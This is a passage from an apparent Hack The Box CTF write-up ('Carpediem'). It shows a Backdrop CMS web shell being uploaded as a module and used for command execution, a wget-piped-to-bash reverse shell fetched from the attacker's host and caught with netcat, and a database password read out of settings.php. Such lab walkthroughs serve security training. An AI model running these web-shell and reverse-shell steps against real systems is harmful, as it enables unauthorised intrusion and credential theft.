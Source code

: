 Googling for _"Backdrop cms exploit github"_ the first hit we get is a [CSRF to RCE](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS) exploit for version 1.20. Looking in backdrop under _Reports_ > _Status Report_ we see that our instance is running version 1.21.4, lets test it anyway.

Go to _Functionality_ > _Install new modules_ > _Manual Installation_ > _Upload_, once uploaded make sure to enable the newly added module. It will be located at the bottom of the box _Fields_:

![[/assets/images/htb-writeup-carpediem/carpediem21.png]]

Testing it out and yes, we do have code execution:
```bash
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=hostname
90c7f522b842
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=ls%20-al
total 76
drwxr-xr-x 4 www-data www-data  4096 Sep 14 00:55 .
drwxr-xr-x 3 www-data www-data  4096 Sep 14 00:55 ..
-rw-r--r-- 1 www-data www-data 18092 Sep 14 00:55 LICENSE.txt
-rw-r--r-- 1 www-data www-data  1768 Sep 14 00:55 README.md
-rw-r--r-- 1 www-data www-data   323 Sep 14 00:55 reference.info
-rw-r--r-- 1 www-data www-data   484 Sep 14 00:55 reference.install
-rw-r--r-- 1 www-data www-data 23598 Sep 14 00:55 reference.module
-rw-r--r-- 1 www-data www-data    30 Sep 14 00:55 shell.php
drwxr-xr-x 2 www-data www-data  4096 Sep 14 00:55 tests
drwxr-xr-x 2 www-data www-data  4096 Sep 14 00:55 views
```

Using cURL to trigger a reverse shell (like before) doesn't seem to work in this container, instead we use **wget**:
```bash
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=wget%20-qO-%20http://10.10.14.10/rev.sh\|bash

➜  carpediem python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.167 - - [14/Sep/2022 09:03:27] "GET /rev.sh HTTP/1.1" 200 

➜  carpediem nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 58916
bash: cannot set terminal process group (271): Inappropriate ioctl for device
bash: no job control in this shell
www-data@90c7f522b842:/var/www/html/backdrop/modules/reference$ 
```


### Step 3
Before uploading `deepce.sh` lets have a look around if we find anything sensitive.

New MySQL credentials:
```bash
www-data@90c7f522b842:/var/www/html/backdrop$ cat settings.php
[... snip ...]
$database = 'mysql://backdrop:34tB8RGtgtJjZ2Tz@localhost/backdrop';

```
